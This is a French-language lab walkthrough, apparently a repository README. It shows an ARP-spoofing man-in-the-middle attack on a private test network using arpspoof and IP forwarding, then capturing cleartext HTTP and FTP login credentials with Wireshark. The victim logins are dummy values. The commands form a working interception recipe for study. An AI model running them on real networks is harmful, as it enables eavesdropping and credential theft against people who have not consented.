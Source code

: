 # Attaque MITM avec ARP Spoofing et Capture de Trafic HTTP/FTP
---

##  Mise en place de l’attaque MITM
### Configuration du réseau
- **Attaquant** : `192.168.30.3`
- **Victime** : `192.168.30.1`
- **Passerelle** : `192.168.30.254`
- **Interface attaquante** : `ens3`

### 1.1 Activer le routage IP sur l'attaquant
```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

### 1.2 Lancer l'attaque ARP Spoofing
Empoisonner la table ARP de la victime et de la passerelle :
```bash
sudo arpspoof -i ens3 -t 192.168.30.1 -r 192.168.30.254 &
sudo arpspoof -i ens3 -t 192.168.30.254 -r 192.168.30.1 &
```
 **Résultat :** Tout le trafic entre la victime et la passerelle passe par l’attaquant.

---

## Capture des identifiants HTTP avec Wireshark
## 2.1 Filtrer le trafic HTTP
1. **Ouvrir Wireshark en root** :
```bash
sudo wireshark
```
2. **Sélectionner l’interface `ens3`**
3. **Appliquer un filtre HTTP** :
```plaintext
http
```

### 2.2 Se connecter à un site HTTP vulnérable
**Sur la machine victime (`192.168.30.1`)**, ouvre un navigateur et va sur :
```plaintext
http://testphp.vulnweb.com/login.php
```
1. **Entre un identifiant et un mot de passe bidon**
2. **Valide la connexion**

### 2.3 Récupérer les identifiants dans Wireshark
Dans **Wireshark**, recherche une requête HTTP **POST** contenant :
```plaintext
username=xxxxx&password=xxxxx
```
---

## Capture des identifiants FTP avec Wireshark
### 3.1 Filtrer le trafic FTP
1. **Appliquer un filtre FTP dans Wireshark** :
```plaintext
ftp
```

### 3.2 Connexion FTP depuis la victime
 **Sur la machine victime (`192.168.30.1`)**, exécute :
```bash
ftp 192.168.30.254
```
1. **Entre un identifiant bidon (`testuser`)**
2. **Entre un mot de passe (`password123`)**

###  3.3 Récupérer les identifiants dans Wireshark
Dans **Wireshark**, recherche des paquets FTP contenant :
```plaintext
USER testuser
PASS password123
```
**Les identifiants FTP sont capturés en clair !**

---

